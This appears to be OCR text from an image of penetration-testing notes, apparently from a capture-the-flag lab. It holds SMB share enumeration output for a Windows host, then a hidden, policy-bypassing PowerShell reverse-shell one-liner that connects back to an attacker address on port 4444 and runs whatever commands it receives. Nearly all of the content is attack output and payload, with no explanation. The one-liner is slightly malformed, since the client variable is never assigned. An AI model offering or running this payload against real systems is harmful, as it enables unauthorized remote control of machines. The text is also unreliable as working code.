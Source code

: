 [+] 10.10.10.193:445      - ADMIN$ - (DISK) Remote Admin
[+] 10.10.10.193:445      - C$ - (DISK) Default share
[+] 10.10.10.193:445      - HP-MFT01 - (PRINTER) HP-MFT01
[+] 10.10.10.193:445      - IPC$ - (IPC) Remote IPC
[+] 10.10.10.193:445      - NETLOGON - (DISK) Logon server share 
[+] 10.10.10.193:445      - print$ - (DISK) Printer Drivers
[+] 10.10.10.193:445      - SYSVOL - (DISK) Logon server share

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.26",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()